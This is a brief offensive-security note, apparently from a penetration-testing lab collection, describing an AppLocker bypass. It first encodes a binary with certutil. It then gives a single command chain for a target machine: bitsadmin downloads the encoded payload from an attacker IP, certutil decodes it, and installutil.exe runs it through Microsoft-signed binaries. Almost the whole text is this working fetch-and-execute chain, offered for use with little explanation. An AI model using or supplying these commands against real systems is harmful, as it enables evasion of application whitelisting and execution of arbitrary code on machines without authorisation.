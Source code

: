 # AppLocker Bypass PowerShell Runspace

We can encode this into a text file with `CertUtil`.

```powershell
certutil -encode C:\Path\To\Binary.exe binary-coded.txt
```

We then run the following oneliner on the target to use the combination of Microsoft-signed binaries to effectively bypass AppLocker.

```powershell
cmd.exe /c del C:\Windows\Tasks\enc.txt && del c:\Windows\Tasks\a.exe && bitsadmin /Transfer theJob http://192.168.49.67/PSRunspace-InvokeRun-certutilCoded.txt C:\Windows\Tasks\enc.txt && certutil -decode C:\Windows\Tasks\enc.txt C:\Windows\Tasks\a.exe && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\a.exe
```